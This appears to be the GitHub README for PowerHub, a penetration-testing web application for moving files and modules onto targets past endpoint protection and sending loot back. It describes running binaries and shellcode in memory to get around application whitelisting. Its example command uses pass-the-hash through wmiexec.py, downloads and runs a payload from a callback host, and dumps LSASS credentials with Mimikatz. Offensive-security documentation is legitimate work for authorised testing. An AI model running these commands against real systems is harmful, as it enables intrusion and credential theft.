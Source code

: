 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet. PowerHub also helps with collaboration
in case you're a small team.

How it works
============

The web application is made with Flask and consists of three parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shell code. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book, but non-persistent.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

Usage
=====

PowerHub has two mandatory arguments: the first is the callback host (can be
an IP address) and the second is either `--auth <user>:<pass>` or
`--no-auth`. The latter disables basic authentication which is *not
recommended*. This host name is used by the stager to download the payload.
If the callback port or path differ from the default, it can also be
changed.

Read `./powerhub.py --help` for details.

Example
=======

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
